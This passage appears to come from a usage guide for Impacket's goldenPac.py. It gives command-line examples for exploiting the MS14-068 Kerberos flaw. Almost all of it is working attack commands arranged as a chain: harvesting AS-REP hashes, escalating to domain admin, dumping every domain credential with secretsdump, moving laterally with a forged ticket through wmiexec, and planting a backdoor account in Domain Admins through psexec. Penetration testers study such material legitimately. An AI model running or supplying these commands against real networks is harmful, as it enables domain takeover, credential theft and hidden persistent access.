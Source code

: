 ### Advanced Usage Examples
```bash
# Debug mode for troubleshooting
python3 goldenPac.py -debug domain.net/normaluser:password@domain-host

# With timestamps for logging
python3 goldenPac.py -ts domain.net/normaluser:password@domain-host

# Upload PowerShell script and execute
python3 goldenPac.py -c /tmp/script.ps1 domain.net/normaluser:password@domain-host -ExecutionPolicy Bypass
```

## Attack Chain Integration

### Post-Exploitation Privilege Escalation
```bash
# Step 1: Obtain low-privilege domain user credentials
python3 GetNPUsers.py domain.net/ -usersfile users.txt -no-pass

# Step 2: Use MS14-068 to escalate to domain admin
python3 goldenPac.py domain.net/lowprivuser:password@dc.domain.net

# Step 3: Dump all domain credentials
python3 secretsdump.py -k -no-pass domain.net/lowprivuser@dc.domain.net
```

### Lateral Movement with Golden PAC
```bash
# Step 1: Exploit MS14-068 and save ticket
python3 goldenPac.py -w /tmp/golden.ccache domain.net/user:pass@dc.domain.net None

# Step 2: Use ticket for lateral movement
export KRB5CCNAME=/tmp/golden.ccache
python3 wmiexec.py -k -no-pass domain.net/user@server1.domain.net
python3 wmiexec.py -k -no-pass domain.net/user@server2.domain.net
```

### Persistence Through Golden PAC
```bash
# Step 1: Create golden PAC ticket
python3 goldenPac.py -w /tmp/persistent.ccache domain.net/user:pass@dc.domain.net None

# Step 2: Create backdoor account with ticket
export KRB5CCNAME=/tmp/persistent.ccache
python3 psexec.py -k -no-pass domain.net/user@dc.domain.net
# Inside PSExec shell:
# net user backdoor P@ssw0rd123! /add /domain
# net group "Domain Admins" backdoor /add /domain
```
